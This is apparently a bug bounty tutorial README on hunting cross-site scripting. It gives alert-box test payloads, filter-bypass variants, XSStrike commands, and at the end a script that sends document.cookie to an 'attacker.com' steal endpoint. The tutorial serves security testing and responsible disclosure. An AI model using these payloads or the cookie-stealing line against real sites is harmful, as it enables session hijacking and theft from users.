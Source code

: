 # What is XSS (Cross-Site Scripting)? 🤔

```
  - It allows attackers to inject malicious scripts into websites.
  - These scripts then run in the browser of other users who visit that website.
  - The attacker can steal information, manipulate the website’s content, or even take control of a user’s session.
  - Medium Risk ( low impact + high probability = medium risk )
```

# 🎯 Why is XSS Dangerous?
```
 - Steal cookies and session tokens (can take over user accounts). / Keylogging
 - Redirect users to malicious websites. / Phishing / URL Redirection
 - Modify the website’s content.
 - Spread malware.
```


# 📋 Types of XSS:
```
Stored XSS (Persistent):
	- Malicious code is saved on the website’s server (e.g., in comments or profiles).
	- Example: An attacker writes harmful JavaScript in a comment box, and every visitor sees the harmful script.

Reflected XSS:
    - The malicious script is included in a URL or form input.
    - Example: An attacker sends a link with malicious code, and if the victim clicks it, the script runs.

DOM-based XSS:
    - Happens when the client-side script processes untrusted data.
    - Example: A website’s JavaScript dynamically updates the page using URL parameters without validation.
```

# 🔎 How to Hunt for XSS (Cross-Site Scripting)?

## 🛠 Steps to Hunt for XSS:

### 📌 Step 1: Identify User Input Fields
```
Look for places where a website accepts user input and displays it back. These can include:
    - Search boxes
    - Comment sections
    - Login forms
    - URL parameters (GET requests)
    - Cookies and headers
    - File upload functionality
```

### 📌 Step 2: Test for Reflected XSS (Quick Wins)
## Reflected XSS occurs when a script is injected into a URL or input field and gets reflected back immediately.

### ✅ Payloads to Try:
#####  Basic Payloads:
```
<script>alert('XSS');</script>
```

```
<img src=x onerror=alert('XSS')>
```
```
<svg onload=alert('XSS')>
```

### 2. In URL Parameters:
````
Try injecting payloads into URL parameters.

Example:
   php
       - https://example.com/search?query=<script>alert('XSS')</script>
````

### 3.In Input Fields:
```
Enter the payload in form fields, such as a login form, search box, or feedback form.
```

### 📌 Step 3: Test for Stored XSS (Persistent XSS)
## Stored XSS occurs when your malicious input is saved on the server and shown to other users.

### ✅ Places to Check:
```
 - Comment sections
 - Profile fields
 - Message boards
 - File uploads (malicious scripts inside files)
```

### 🚩 Steps:
```
Post a comment like this: <script>alert('Stored XSS');</script> 
  - Refresh the page and see if the script runs for you or other users. 
```


### 📌 Step 4: Test for DOM-Based XSS

## DOM-based XSS happens when the website’s JavaScript manipulates the DOM using user input without proper validation.

### ✅ Payloads to Try:
```
Enter this in the URL:
  https://example.com/#<script>alert('DOM XSS');</script>
  Or test in the input fields:  <input type="text" onfocus="alert('XSS')">
```
### 🚩 Look for JavaScript Functions
```
Check if the website uses functions like innerHTML, document.write(), or eval().
```



### 📌 Step 5: Use XSS Payloads Lists
## Use pre-built XSS payload lists to try various injections.
### 🔗 Payloads All The Things (GitHub):

```
 https://github.com/swisskyrepo/PayloadsAllTheThings
```

### 📌 Step 6: Use XSS Hunting Tools
#### 🧰 1. Burp Suite (Most Popular)
```
Intercept requests and modify user input to inject XSS payloads.
Use Burp Scanner to automate XSS checks.
```
#### 🧰 2. OWASP ZAP (Free and Open Source)
```
Automated scanner for finding XSS and other vulnerabilities.
```
#### 🧰 3. XSStrike
```
A dedicated XSS tool that intelligently finds and exploits XSS vulnerabilities.
   - git clone https://github.com/s0md3v/XSStrike
   - python3 xsstrike.py -u https://example.com
```
#### 🧰 4. XSS Hunter (Advanced)
```
   - Use XSS Hunter to find blind XSS vulnerabilities.
   - It provides a custom tracking domain to catch XSS that doesn't show immediate output.
```
### 📌 Step 7: Bypass Filters (WAF/Firewalls)
```
Some websites may block basic payloads. Try bypass techniques:
 - Bypass Tags:
        <<script>alert('XSS');</script>
Using Unicode Encoding:
        <scrİpt>alert('XSS')</scrİpt>
Using Obfuscation:
        <img src=x onerror='javasc'+'ript:alert("XSS")'>
Using Event Handlers:
        <input type="text" onfocus="alert('XSS')">
 ```
📌 Step 8: Report XSS Vulnerabilities
If you find an XSS vulnerability, report it responsibly to the website owner or use bug bounty platforms like:

HackerOne (https://hackerone.com)
Bugcrowd (https://bugcrowd.com)
Intigriti (https://www.intigriti.com)
🚩 Signs of a Successful XSS:
You see an alert box.
You can steal cookies using:
javascript
Copy code
<script>
    fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>

